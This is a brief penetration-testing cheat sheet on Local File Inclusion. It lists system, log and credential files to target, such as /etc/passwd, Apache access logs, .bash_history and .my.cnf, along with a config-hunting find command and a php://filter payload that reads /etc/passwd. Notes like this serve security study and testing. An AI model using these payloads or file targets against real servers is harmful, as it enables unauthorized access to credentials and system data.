 # LFI

usually happens when you have dynamic content based on a parameter

## common files

```text
/etc/knockd.conf
/etc/default/knockd
/etc/issue
/etc/motd
/etc/group
/etc/passwd
/var/www/html/.htaccess
/etc/httpd/logs/acces_log
/etc/httpd/logs/error_log
/var/www/logs/access_log
/var/www/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/var/log/apache/access_log
/var/log/apache2/access_log
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/access_log
```

## user home directory and root

```text
bash_history
.mysql_history
.my.cnf
.profile
```

## configuration files

`find / -type f 2>/dev/null | grep -i conf` db/db.php db.php session.php config.php mysql.conf

## common things during LFI

?page=php://filter/convert.base64-encode/resource=/etc/passwd User-Agent: Mozilla/5.0 like Gecko

